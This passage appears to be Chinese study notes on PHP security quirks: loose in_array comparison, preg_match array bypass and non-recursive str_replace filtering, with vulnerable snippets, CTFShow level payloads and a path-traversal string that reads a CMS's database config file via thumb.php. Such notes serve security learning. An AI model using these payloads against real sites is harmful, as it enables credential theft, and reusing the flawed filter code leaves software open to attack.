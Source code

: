 ![img](https://cdn.nlark.com/yuque/0/2024/png/1591503/1721114722712-e612d55e-ba70-4b43-a899-01045e90f831.png)

```plain
$whitelist = [1,2,3];
$page=$_GET['i'];
if (in_array($page, $whitelist)) {
 echo "yes";
}
没有TRUE相当于==，设置了TRUE相当于===
//?i=1ex

6、preg_match只能处理字符串，如果不按规定传一个字符串，通常是传一个数组进去，这样就会报错
preg_match匹配不了数组。
if(isset($_GET['num'])){
 $num = $_GET['num'];
 if(preg_match("/[0-9]/", $num)){
 die("no no no!");
 }
 if(intval($num)){
 echo $flag;
 }
}
//?num[]=1

7、str_replace无法迭代过滤
$sql=$_GET['s'];
$sql=str_replace('select','',$sql);
echo $sql;

//?s=sselectelect
```

- 实践-CTFShow-PHP特性-89关卡

```plain
89关：?num[]=1
90关：?num=4476.0
91关：?cmd=%0aphp
92关：?num=010574
93关：?num=010574
94关：?num= 010574
95关：?u=./flag.php
```

- 实践-代码审计-过滤缺陷-文件读取

全局搜索str_replace函数，发现：

![img](https://cdn.nlark.com/yuque/0/2024/png/1591503/1721114722795-684ac459-6c30-45e1-acbb-20d8681cb9fe.png)

控制dir，可以任意读取文件。/include/thumb.php?dir=.....///http\.....//\config/config_db.php

![img](https://cdn.nlark.com/yuque/0/2024/png/1591503/1721114722978-208e9d5d-302d-4521-b8bd-a18e131113a0.png)